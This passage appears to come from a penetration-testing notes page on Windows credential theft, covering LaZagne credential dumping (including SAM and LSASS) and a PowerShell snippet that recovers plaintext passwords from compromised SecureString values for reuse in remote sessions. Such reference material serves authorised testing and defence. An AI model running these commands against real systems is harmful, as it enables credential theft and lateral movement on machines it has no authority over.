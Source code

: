 party softwares, such as web browsers, system administrator and developers
utilities, etc. It will conduct the search for every user profiles and will
retrieve the credentials stored by third parties software through different
mediums (plaintext files, registry keys, local databases, etc.), decrypting the
`DPAPI` encrypted blob using the `MasterKeys` extracted from memory.
Additionally, `LaZagne` will retrieve credentials from the Windows `MScache`,
`SAM` registry hive and `LSASS` process if executed with the necessary
elevated privileges.

```
lazagne.exe all -oA -output <OUTPUT_FILE_PATH>
```

###### SecureString

If an encrypted standard string of a PowerShell  `SecureString` object is
compromised, from a file for example, the `SecureString` can be directly
re used:

```
# Neither the specified <DOMAIN> or <USERNAME> matter to retrieve the password (but do to directly reuse the PS credential object).
$user = "<DOMAIN>\<USERNAME>";

# Regular secure string.
$secure_str = "<SECURESTRING>" | ConvertTo-SecureString;

# If the secure string has been encrypted using an AES key.
# The AES <AES_KEY> should be specified in a bytes array (example for a AES 256 key: 149,78,229,162,205,32,191,57,155,208,27,225,129,85,69,233,157,77,207,49,67,238,46,181,182,80,171,236,170,103,59,182).
$encrypted = "<BASE64_ENCRYPTED_SECURE_STRING>"
[Byte[]] $key = (<AES_KEY>)
$secure_str = $encrypted | ConvertTo-SecureString -Key $key

$creds = New-Object System.Management.Automation.PSCredential($user, $secure_str)

# The plaintext password stored in the secure string can then be retrieved.
$creds.GetNetworkCredential() | fl
```

The PowerShell credentials object can now be passed to cmdlets supporting it,
such as `Start-Process` / `Start-Job` or `Invoke-Command` / `Enter-PSSession`.

Note that if the `SecureString` object was created using a plaintext password,
instead of using a `Key` / `SecureKey`, the stored standard string can only be
converted to a `SecureString` object by the account, local or domain joined,
that created the `SecureString` initially. Otherwise, the following error
message will be returned:  

```
ConvertTo-SecureString : Key not valid for use in specified state.
```

### RDP Session Hijacking
